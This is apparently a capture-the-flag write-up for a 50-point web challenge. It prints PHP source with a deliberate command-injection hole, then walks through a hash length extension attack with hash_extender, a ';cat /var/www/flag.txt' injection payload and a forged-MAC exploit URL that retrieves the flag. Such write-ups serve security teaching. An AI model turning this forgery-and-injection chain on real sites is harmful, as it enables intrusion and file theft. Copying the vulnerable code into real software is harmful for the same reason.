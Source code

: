 ```yaml
---
title: What Is The Deadly Bug Here? - [Web, 50pts]
layout: default
type: post
topic: hilltopctf2020
---
```


## Description


![c9fd42053c1860b5e8adc479279ffeef.png](/assets/images/ec6165ad18424803876d01a024adcda0.png)


## Solving

Given a simple website that looks like this.

![0956ba0662dbb4f93d2dcaa8e8f2527a.png](/assets/images/1f07699a5c3a4904a02dc7d34bc68f56.png)

Examining the response of the request, we could found some interesting headers.

![662190ad5e6f3fa71a40cf56ef3f4240.png](/assets/images/64d64912595a4428b87bab10e38b0aeb.png)


Sending the `?debug` parameter to the website showed us the source code of the challenge. 

```
<?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```

There is some interesting information that we can get by statically analyzing the source code. Here are them:
1. `$greet` variable is supposed to contain a name of a file; and we can control the value as this line of code shows:
    ```
    if (isset($_GET['greet'])) $greet = $_GET['greet'];
    ```
    
2. If you get the reference, this challenge is based on [this](https://www.youtube.com/watch?v=MpeaSNERwQA) video on Youtube by LiveOverflow. `hash_hmac` function in that video is more or less the same with `patched` function in this challenge, but supplying an array into the function would not work anymore because of this line of code:
    ```
    if (is_string($string)) {
        ...
    }
    ```
    Anyway, if you don't understand what I'm talking about, please watch the video, it's all there :).

3. The `patched` function validates our input and returns a message-digested hash value from the input. The difference between this and the function in [that](https://www.youtube.com/watch?v=MpeaSNERwQA) video is: with the intention of patching (or should I say securing) the application, this challenge uses `hash` function instead of `hash_hmac` function to generate the hash value. By doing that, the application is potentially vulnerable to *Hash Length Extension Attack*. We'll come back to this very soon.

4. This line of code:
    ```
    $greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);
    ```
    basically strips out every special character from the `$greet` variable.

5. If the `mac` we provide (`$_GET['mac'`) is not equals to the generated `mac` value, the application is terminated. So we need to make sure that both are the same.

6. Finally, this line of code:
    ```
    echo passthru("cat $greet 2>&1", $err);
    ```
    is how we are gonna get the flag. The `$greet` variable, which we can control, will be passed into `passthru` function; which will then be executed as a shell command.

*Hash Length Extension Attack* is a type of attack where an attacker can use a computed hash `(Hash(*message1*))` and the length of the message (message1*) to calculate another hash `(Hash(*message1* || *message2*))` for an attacker-controlled message. An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data (read more [here](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)).

This challenge gives us a hash value and it's original data by sending the `X-MY-GREET` and `X-MY-GREET-MAC` header on the response. Thus, without knowing the secret, we can generate a valid hash for `secret + greet.txt + <arbitrary evil data>` without knowing the value of the prepended secret. We can use *bash command separation* to execute arbitrary command after reading the value of `greet.txt`. Simply put, this would be the payload we want to be passed to the `passthru` function:
```
echo greet.txt;cat /var/www/flag.txt 2>&1
```

The location of the flag can be found on the hint published for this challenge.

There are many tools out there, but for this writeup, [this](https://github.com/iagox86/hash_extender) tool from Ron Bowes will help us doing the *Length Extension Attack*. And here's how we used them:
```
hash_extender -d 'aboutme.txt' -s cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c -a ';cat /var/www/flag.txt' -f sha256 -l 25 --out-data-format=html
```
From the manual:
`-d` is the original string that we're going to extend
`-s` is the original signature or the hash value of the original string
`-a` is the data that we want to append to the original string
`-f` is the hash algorithm
`-l` is the length of the secret, which is leaked when we visit `secret.php` page

![5fb70b6dbb0ed2b07a53175556086711.png](/assets/images/2d86a44f5e294cadbda6a4d893b1b275.png)

Then we get our new hash and new message.
```
New signature: 3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c
New string: aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt

```

![98365288a99edd441e4e4743df0298b5.png](/assets/images/e49e327073c740f7a2194e00ef28c372.png)

Don't worry about the null bytes in the new message, because fortunately the challenge used `filter_var` and those null bytes will be stripped before being passed into `passthru` function.

Send the hash and the message to the application like this:
```
http://192.81.210.234:10002/?mac=3686b8643ff253c607ee7c4fdb838cef93caa99c0dc52f6c8ca028d0b257749c&greet=aboutme%2etxt%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01+%3bcat+%2fvar%2fwww%2fflag%2etxt
```

And there's the flag.



![44cba8a2af6184dd0fe48900c4f53949.png](/assets/images/3d59ab4e510d4dad9a613a30c21e5100.png)



## The Flag
Flag is **HilltopCTF{uh...1think_1mad3_itwors3_s00wy}**

